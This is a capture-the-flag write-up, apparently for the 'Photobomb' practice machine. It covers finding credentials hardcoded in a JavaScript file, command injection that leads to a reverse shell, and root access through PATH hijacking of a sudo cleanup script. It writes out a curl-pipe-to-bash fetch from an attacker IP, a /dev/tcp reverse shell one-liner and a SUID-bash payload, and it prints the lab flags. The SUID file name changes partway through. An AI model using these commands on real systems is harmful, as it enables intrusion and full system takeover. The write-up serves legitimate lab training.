 # Photobomp Machine

<img src=".github/photobomb.png">



## Enumeration

In the enumeration we can found the common ports 22 and 80
running the ssh and the http, nothing to be surprised.


<img src=".github/enumeration2.png"/>

Adding the ip in the ```/etc/hosts``` we can see the
following web page.

<img src=".github/enumeration1.png"/>

In the enpoints we can found the endpoint ```/printer```
that request for a user and password but with source 
coding we can see the Javascript file

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
So then the user _pH0t0_ and the password _b0Mb!_


so then we can see the another page

<img src=".github/enumeration3.png"/>


## Explotation
We see in the burpsuit that using the parameter type
we can inject commands getting a RCE
<img src=".github/explotation1.png"/>

<img src=".github/explotation2.png"/>


Now we can use a reverse shell to get a interactive shell uisng the parameter
as follow ```curl http://10.10.14.22 | bash```

and the html file
<img src=".github/explotation5.png"/>

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'
```
<img src=".github/explotation3.png"/>

And after that, we can see the use flag

```bash
wizard@photobomb:~$ ls -la
total 44
drwxr-xr-x 7 wizard wizard 4096 Sep 16 15:14 .
drwxr-xr-x 3 root   root   4096 Sep 16 15:14 ..
lrwxrwxrwx 1 wizard wizard    9 Mar 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 wizard wizard  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 wizard wizard 3771 Feb 25  2020 .bashrc
drwx------ 2 wizard wizard 4096 Sep 16 15:14 .cache
drwxrwxr-x 4 wizard wizard 4096 Sep 16 15:14 .gem
drwx------ 3 wizard wizard 4096 Sep 16 15:14 .gnupg
drwxrwxr-x 3 wizard wizard 4096 Sep 16 15:14 .local
drwxrwxr-x 6 wizard wizard 4096 Sep 16 15:14 photobomb
-rw-r--r-- 1 wizard wizard  807 Feb 25  2020 .profile
-rw-r----- 1 wizard wizard   33 Oct 11 00:23 user.txt
wizard@photobomb:~$ cat user.txt 
348634b63a0f95e3149f62a150efaf28
```


## Post explotation (intrussion)


In this section, the post explotation, we can see the configuration
in the sudo permissions for the user wizard

```bash
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~$ 
```


Due this information, we can see that using the PATH value, we can change
the location for the executin the file called _find_
```
wizard@photobomb:~$ cat find
#!/bin/bash
cp /bin/bash /tmp/asd; chmod 4777 /tmp/asd



wizard@photobomb:~$ sudo PATH=/home/wizard:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin /opt/cleanup.sh
wizard@photobomb:~$ ls -la /tmp/dick
-rwsrwxrwx 1 root root 1183448 Oct 11 03:57 /tmp/dick
wizard@photobomb:~$ cd /tmp
wizard@photobomb:/tmp$ ./dick -p
dick-5.0# whoami
root
dick-5.0# cat /root/root.txt
791ca016c800b4ff5dd3a9d0ffed8605
dick-5.0# 
```

And getting a copy of the bash binary with the value SUID permissions and get the root
## Reporting